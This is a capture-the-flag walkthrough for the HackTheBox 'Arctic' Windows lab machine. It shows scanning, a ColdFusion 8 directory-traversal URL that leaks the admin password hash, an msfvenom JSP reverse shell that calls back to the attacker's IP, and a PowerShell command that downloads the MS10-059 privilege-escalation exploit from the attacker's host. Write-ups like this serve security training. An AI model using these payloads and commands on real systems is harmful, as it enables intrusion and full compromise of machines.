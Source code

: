 ```yaml
---
layout: post
title: "HackTheBox Walkthrough - Arctic"
author: "Emmet Friel"
categories: HackTheBox
image: htb/arctic/arctic.png
---
```


# Introduction

Arctic is an "easy" Windows machine on Hackthebox.


# Reconnaissance & Enumeration

```bash
root@kali:~/Documents/boxes/arctic# nmap -sC -sV -O -oN nmap.nmap 10.10.10.11
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-11 13:10 BST
Nmap scan report for 10.10.10.11
Host is up (0.027s latency).
Not shown: 997 filtered ports
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: phone|general purpose|specialized
Running (JUST GUESSING): Microsoft Windows Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Vista SP2 (91%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (90%), Microsoft Windows 8.1 Update 1 (90%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 141.73 seconds
```

The scan shows two MSRPC services and one unknown that nmap couldn’t pick up. Before checking out what it is exactly, I used rpcclient and tried to connect to the two MSRPC services with anonymous credentials:

```bash
rpcclient -U "" -N -p 135 10.10.10.11
rpcclient -U "" -N -p 49154 10.10.10.11
```

Server timed out, no luck. Back to see whats running on port 8500 so navigating to that port on the browser shows the webpage.

| ![image]({{site.github.url}}/assets/img/htb/arctic/index.png) |
| :--: |
| *Webpage running on port 8500* |

Navigating through the directory I came across an Adobe ColdFusion8 admin portal. Note that the webpages take about 20 seconds to load so be patient.

| ![image]({{site.github.url}}/assets/img/htb/arctic/portal.png) |
| :--: |
| *Adobe ColdFusion8 web portal* |

Searching information about Adobe ColdFusion 8, it came out in July 2007 and the latest version is now ColdFusion 2018. ColdFusion uses its own server-side markup language (CFML) and the application itself was wrote in Java but to verify this we can view the HTTP headers using CURL.

| ![image]({{site.github.url}}/assets/img/htb/arctic/httpheaders.png) |
| :--: |
| *Grabbing HTTP headers gives us more information about the server* |

So, ColdFusion is hosted on a JRun Web Server and that runs on JSP, another server-side language. Quick search on ColdFusion8 exploits and the one I used was: Adobe ColdFusion - Directory Traversal which refers to CVE-2010-2861: 
> “Multiple directory traversal vulnerabilities in the administrator console in Adobe ColdFusion 9.0.1 and earlier allow remote attackers to read arbitrary files via the locale parameter to (1) CFIDE/administrator/settings/mappings.cfm, (2) logging/settings.cfm, (3) datasources/index.cfm, (4) j2eepackaging/editarchive.cfm, and (5) enter.cfm in CFIDE/administrator/.”

The exploit gives us the ability to read file paths using these parameters! Reading the exploit script it shows a directory that looks like it would show us some password properties: ```http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en```

| ![image]({{site.github.url}}/assets/img/htb/arctic/hash.png) |
| :--: |
| *The directory path returned a hashed password on the webpage* |

The portal shows a hashed password that I could attempt to crack. You can use John the ripper or various websites. I used crackstation.net and it successfully cracked the password which turned out to be **happyday**. Logging into the portal you can see everything about the server from “Settings Summary” under Server Setting tab. The info shows the server is running on Windows Vista and I came across important default file paths.

| ![image]({{site.github.url}}/assets/img/htb/arctic/mappings.png) |
| :--: |
| *Important directory mappings. If we get to upload files to the server we'll use these default file paths* |

On the admin portal there is an option for “Scheduled Tasks” which gives us the ability to execute a task from a remote URL! Lovely. We know the server handles CFML and JSP so we can decide on a web shell (CFML) or a complete shell to the machine (JSP), I went for a complete shell but the CFML webshells are under **/usr/share/webshells/cfm** on Kali. Save the task to a file called shell.jsp using the default file path mappings above so we can execute that file from ```http://10.10.10.11/CFIDE/<file>```

| ![image]({{site.github.url}}/assets/img/htb/arctic/task.png) |
| :--: |
| *Creating a task to download a file from my python webserver* |

Create a new directory to host the reverse shell file using a webserver, create a jsp reverse shell using msfvenom and setup your netcat listener. Go the **http://10.10.10.11:8500/CFIDE/shell.jsp** and then wait for your listener to catch that connection.

```bash
root@kali:~/Documents/boxes/arctic/share# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.19 LPORT=443 -f raw > shell.jsp
```

| ![image]({{site.github.url}}/assets/img/htb/arctic/shell.png) |
| :--: |
| *Shell access to the victim with user privs* |

# Privilege Escalation

If you run ```systeminfo``` you can see its running on Windows 2008 and there hasn’t been any patches carried out on the machine. Using Windows Exploit Suggester to find an escalation vulnerability: 

```bash
root@kali:~/Documents/boxes/arctic# python windows-exploit-suggester.py --database 2020-04-10-mssb.xls --systeminfo systeminfo.txt --quiet
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

After some trial and error, MS10-059 gave me that root shell :)

```windows
C:\Users\tolis\Desktop>powershell.exe -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.19:8000/MS10-059.exe','C:\Users\tolis\Desktop\exploit.exe')"
```

| ![image]({{site.github.url}}/assets/img/htb/arctic/exploit.png) |
| :--: |
| *Running the exploit* |

![image]({{site.github.url}}/assets/img/htb/arctic/root.png) |


Boom, root privelleges.
